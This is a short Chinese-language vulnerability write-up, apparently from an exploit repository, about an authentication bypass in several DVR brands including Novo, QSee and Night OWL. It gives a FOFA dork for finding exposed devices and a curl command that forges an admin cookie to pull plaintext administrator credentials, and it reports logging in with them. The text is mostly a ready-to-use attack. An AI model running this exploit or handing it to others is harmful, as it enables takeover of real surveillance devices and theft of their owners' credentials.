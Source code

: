 # 影响范围：
Novo
CeNova
QSee
Pulnix
XVR 5 in 1 (title: "XVR Login")
Securus, - Security. Never Compromise !! -
Night OWL
DVR Login
HVR Login
MDVR Login
# FOFa dork：
"/login.rsp"  
# 漏洞复现：
登录页面：
![image](images/login.png)
通过修改“Cookie: uid=admin” 之后访问特定 DVR 的控制面板，返回此设备的明文管理员凭证。：  
```
curl "http://:/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```
![image](images/curl.png)  
使用获得的密码成功登录：  
![image](images/success.png)
使用脚本进行检测：  
![image](images/script.png)




